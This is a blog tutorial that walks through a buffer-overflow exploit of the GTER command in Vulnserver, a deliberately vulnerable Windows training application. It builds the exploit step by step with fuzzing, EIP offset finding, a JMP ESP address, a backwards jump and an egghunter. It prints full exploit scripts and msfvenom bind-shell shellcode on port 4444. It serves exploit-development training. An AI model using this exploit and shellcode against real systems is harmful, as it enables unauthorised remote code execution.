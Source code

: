 :slug: vulnserver-gter/
:date: 2020-06-11
:category: attacks
:subtitle: Hunting eggs
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Pel on Unsplash
:description: Vulnserver is a VbD application focused to help people practice the exploiting skills. This post will describe the steps taken to exploit the GTER command. This post describes a technique called "Egghunting" used when there are space restrictions for our exploitation.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/DxD3LvfanuM

= Vulnserver GTER Exploitation

As we saw on the link:../vulnserver-trun/[previous post], vulnserver is a
VbD (Vulnerable-by-Design) application that was designed to help you
sharpen the Windows exploitation skills.

Our link:../vulnserver-trun/[previous post] described the exploitation
of TRUN command using a simple EIP overwrite technique, as we had
virtually no constrains for our payload. However, exploiting the
GTER command will not be as straightforward.

WARNING: Do NOT run `vulnserver.exe` on a sensitive machine or on
a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.

image::vulnserver1.png[vulnserver]

We can check the behavior of the `GTER` command by issuing the suggested
syntax.

image::gter1.png[GTER command syntax]

Ok, it's fuzz time.

== Fuzzing GTER

As we did with the `TRUN` command before, we now know the syntax needed for
the `GTER` command. And again,
we'll be using link:https://github.com/guilhermeferreira/spikepp[Spike]
to help us with our fuzzing.

As `GTER` uses a similar syntax as the `TRUN` command, we can reuse
the Spike script created in our previous post and just change the
command

.gter.spk
[source,c]
----
s_string("GTER ");
s_string_variable("*");
----
Remember that the `s_string` command will send an immutable string to
the fuzzed protocol and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

Now we can send the fuzz attack to the victim machine:

image::fuzz1.gif[Running spike]

Ugh! After a few iterations `vulnserver.exe` crashed and it seems
that it happened when we sent 5060 bytes of data.
Let's check the offending payload on `Wireshark`:

image::wireshark1.png[Wireshark capture]

We can now create a PoC (Proof-of-Concept) file with that information:

.exploit.py
[source,python]
----
mport socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 5060
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

This time, we'll attach `vulnserver.exe` to Immunity Debugger.

Let's run the initial exploit and see what happens:

image::gter2.gif[Exploit: take 1]

Look at that! We replicated the crash!

image::crash1.png[Controlling EIP]

Look at the state of the application at the moment of the crash.
The first thing to notice is that the EIP register has the value `41414141`
which means that we effectively overwrote it with our buffer of `A`.
That's good news. However if you see in the stack window (bottom right),
we only have 20 bytes after the ESP pointer, so if we do a `JMP ESP`, we
will only have 20 bytes for working. That's simply not enough space for
anything complex.

However, if we look at the dump window (bottom left), we have a broader
space (around 0x90 or 144 bytes) at the beggining of our buffer, which
is again not enough for something like a reverse shell, so we need to
be creative here. Actually, we can fit a reverse shell in that space,
but we need to carve it manually by reusing already loaded `WinSock`
modules of `vulnserver`, but that will be part of another post.

First things first.

We need to calculate the exact offset on which EIP gets overwritten.
To do that, we will use `pattern_create.rb` from `Metasploit` to create a
cyclic pattern.

.Running pattern_create.rb
[source,bash]
----
# This will only work on Kali Linux
$ msf-pattern_create -l 400
----

image::pattern1.png[Cyclic pattern]

We need now to update the exploit with that pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::offset1.png[Exploit: take 2]

This time, EIP has the value `41396541`. Let's check
the offset on our cyclic pattern:

.Running pattern_offset.rb
[source,bash]
----
# This will only work on Kali Linux
$ msf-pattern_offset -q 41396541
[*] Exact match at offset 147
----

Great, that tells us that the EIP gets overwritten starting on the *147*
byte of our buffer. Update the exploit to check the offset:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    b'B' * 4 +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Now run the exploit. If EIP gets the value `42424242` which are the
four bytes of our `B` buffer, we got it right:

image::offset2.png[Correct offset to EIP]

Whoohooo! Now we can start exploiting this.

== Exploiting

If we check the state of the application after the crash, we can see that
we can jump to ESP to gain control of the execution flow.

We can use `mona.py` plugin to find that instruction:

.mona looking for JMP ESP
[source,bash]
----
! mona jmp -r esp -o -cp nonull
----

This will tell `mona` to look for the instruction `JMP ESP` and will
exclude DLL from the OS.

image::mona1.png[JMP ESP]

We will pick the `JMP ESP` instruction at `625011C7`.
Now we can proceed to update the exploit and replace the four `B`
with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Let's verify this:

image::jmp1.gif[Performing the JMP ESP]

Great!

But like everything can't be so glorious, we landed on our
`C` buffer which contains 20 bytes.
We need to move to the `A` buffer which holds
around 144 bytes to work.

== Jump around

To get around of this space constrain, we need to jump to our bigger
buffer.

For jumping, we can use the unconditional jump instruction found in
X86 architecture called `JMP` that will divert the execution flow
to the desired address. We also need to know where to jump.

Now look at the next image which is the resulting location after
our `JMP ESP` execution:

image::jmp1.png[Location of our execution flow]

As we can see, we are in the next instruction after the `JMP ESP`
at the address `00CBF9C8` (This is a stack address so it will change
everytime we run the application), and we see that we have only
20 bytes to work.

If we scroll up, we can see that the buffer of `A`, starts at
`00CBF931`:

image::jmp2.png[Start of buffer]

So we need to do a relative jump backwards. Using the debugger, we can
easily calculate the offset:

image::jmp3.gif[Relative backwards jump]

As you can see, the resulting bytes are `E9 64 FF FF FF`. Let's update
our exploit with that jump:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And check the result:

image::jmp4.gif[Jumped back]

Great! We were able to jump to the start of our buffer.
But what now? On 147 bytes it's hard to include a working reverse shell.
However, there's a trick we can use that will have to do with eggs.

== Egghunter

An egghunter is a little shellcode (commonly around 32 bytes) that can
be injected on our payload.
It's an special shellcode because it will not execute anything, but also
will search the entire memory for the location of the desired code
and once it's found, it will be executed.

But how will it know what to execute? It will look for a tag that
will be prepended to our shellcode, also called the `egg` and once
it find that `egg`, it will execute any code that follows.

First, we need to create our egghunter shellcode:

.Creating egghunter
[source,bash]
----
$ msf-egghunter -e w00t -f python -v EGGHUNTER
EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
----

Note that the configured egg is `w00t`. However, to make the
searching more effective, that egghunter was designed to  look for
a double instance of that tag, that means `w00tw00t`.
This will make the execution of the shellcode more effective.

Let's update our exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

What will happen is the following:

. Our buffer will be injected.
. The `JMP ESP` will be executed.
. Next the backwards jump will be executed and land directly to our
egghunter.
. The egghunter will iterate through all the memory looking for
the tag `w00tw00t`.
. When the egghunter finds the tag, it will execute anything that
follows that tag.

So, the only thing that's missing is our shellcode. We will create one
that will bind a shell on port `4444`:


.Creating shellcode
[source,bash]
----
$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"
----

But where can we fit it? This shellcode is 355 bytes long but we only
have 140 bytes as much to work.

We have to think out of the box: `Vulnserver` is a server (really!) and it
will surely multiplex connections. Well, we can create a different connection
to send the shellcode over! This will store it on memory where our
egghunter will be able to find it.

We can now finish our exploit. Remember to prepend the `w00tw00t`
egg to the shellcode, or the egghunter won't be able to find it!

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
SHELL =  b"w00tw00t"      # The egghunter will look for this
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"


PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending first stage...')
    fd.sendall(PAYLOAD)
    print('Done.')

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending shellcode...')
    fd.sendall(SHELL)
    print('Boom! Check the port 4444 of the victim.')
----

Now, let's look the egghunter in action:

image::shell1.gif[Success]

Awesome! We got our shell again!

== Conclusion

The egghunter technique is very useful when dealing with
short space for sending complex payloads. However, you
must be careful to inject the correct tag because it will
start using all the available CPU for searching the
egg on the entire system memory.
